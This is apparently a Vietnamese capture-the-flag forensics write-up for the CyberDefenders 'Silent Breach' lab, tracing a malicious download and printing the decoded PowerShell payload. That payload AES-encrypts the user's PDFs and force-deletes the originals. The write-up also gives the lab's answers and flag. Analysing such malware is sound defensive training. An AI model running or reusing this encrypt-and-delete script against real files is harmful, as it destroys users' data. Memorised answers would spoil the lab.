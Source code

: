# Slient Breach

![image](images/img1.png)

## Solution

>Q1. What is the MD5 hash of the potentially malicious EXE file the user downloaded?

Nhận được file `ad1`, load vô FTK imager tìm thấy 1 file `exe` khá sú

![image](images/img2.png)

`Answer: 336A7CF476EBC7548C93507339196ABB`

>Q2. What is the URL from which the file was downloaded?

Truy cập vào `History` của  `Microsoft Edge` bằng `DB SQlite`

![image](images/img3.png)

`Answer: http://192.168.16.128:8000/IMF-Info.pdf.exe`

>Q3. What application did the user use to download this file?

Tại câu trên

`Answer: Microsoft Edge`

>Q4. By examining Windows Mail artifacts, we found an email address mentioning three IP addresses of servers that are at risk or compromised. What are the IP addresses?

Trước hết cần xác định xem dịch vụ email nào đã được chạy trên máy, vì mình không thấy thư mục `windows` nên mình bỏ hướng đi check trong `prefetch`. Thay vào đó mình sẽ đi kiểm tra trong `NTUSER.DAT` hive, cụ thể là trong key `Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist\
`

![image](images/img4.png)

Sau đó sẽ đi trích xuất file `HxStore.hxd` tại path `C:\Users\AppData\Local\Packages`

![image](images/img5.png)

File này được sinh ra bằng `Windows Mail`, lưu ở định dạng nhị phân, không theo chuẩn `EML/MBOX`, nên mình sẽ dùng strings để đọc file

![image](images/img6.png)

`Answer: 145.67.29.88, 212.33.10.112, 192.168.16.128`

>Q4. By examining the malicious executable, we found that it uses an obfuscated PowerShell script to decrypt specific files. What predefined password does the script use for encryption?

Phân tích file `exe` kia mình dùng strings cho nhanh vì reverse mất khá nhiều thời gian

![image](images/img7.png)

Đoạn mã pwsh khá đơn giản, giải mã chuỗi base64 bị đảo ngược và thực thi nó trực tiếp bằng `Invoke-Expression`. Và đây là nội dung sau khi decode

```powershell
$password = "Imf!nfo#2025Sec$"
$salt = [Byte[]](0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08)
$iterations = 10000
$keySize = 32   
$ivSize = 16 

$deriveBytes = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($password, $salt, $iterations)
$key = $deriveBytes.GetBytes($keySize)
$iv = $deriveBytes.GetBytes($ivSize)

# List of input files
$inputFiles = @(
    "C:\\Users\\ethan\\Desktop\\IMF-Secret.pdf",
    "C:\\Users\\ethan\\Desktop\\IMF-Mission.pdf"
)

foreach ($inputFile in $inputFiles) {
    $outputFile = $inputFile -replace '\.pdf$', '.enc'

    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.Key = $key
    $aes.IV = $iv
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    $encryptor = $aes.CreateEncryptor()

    $plainBytes = [System.IO.File]::ReadAllBytes($inputFile)

    $outStream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream($outStream, $encryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

    $cryptoStream.Write($plainBytes, 0, $plainBytes.Length)
    $cryptoStream.FlushFinalBlock()

    $cryptoStream.Close()
    $outStream.Close()

    Remove-Item $inputFile -Force
}

```
Thấy được ngay mật khẩu trong script

`Answer: Imf!nfo#2025Sec$`

>Q5. After identifying how the script works, decrypt the files and submit the secret string.

Script trên thực hiện mã hóa 2 file `.pdf` thành 2 file `.enc` bằng `AES-CBC-Padding` với `key` và `iv` đã có sẵn trong đoạn code. Tiến hành decrypt thôi

```python
from Crypto.Protocol.KDF import PBKDF2
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# Thiết lập mật khẩu và các tham số giải mã
password = "Imf!nfo#2025Sec$"
salt = b"\x01\x02\x03\x04\x05\x06\x07\x08"
iterations = 10000

# Tạo key và IV từ password
data = PBKDF2(password, salt, dkLen=48, count=iterations)
key = data[:32]
iv = data[32:]

# Mở file đã mã hóa
with open("IMF-Mission.enc", "rb") as f:
    encrypted = f.read()

# Giải mã nội dung
cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = unpad(cipher.decrypt(encrypted), AES.block_size)

# Ghi ra file PDF
with open("IMF-Mission.pdf", "wb") as f:
    f.write(decrypted)
```

![image](images/img8.png)

`Answer: CyberDefenders{N3v3r_eX3cuTe_F!l3$_dOwnL0ded_fr0m_M@lic10u5_$erV3r}`



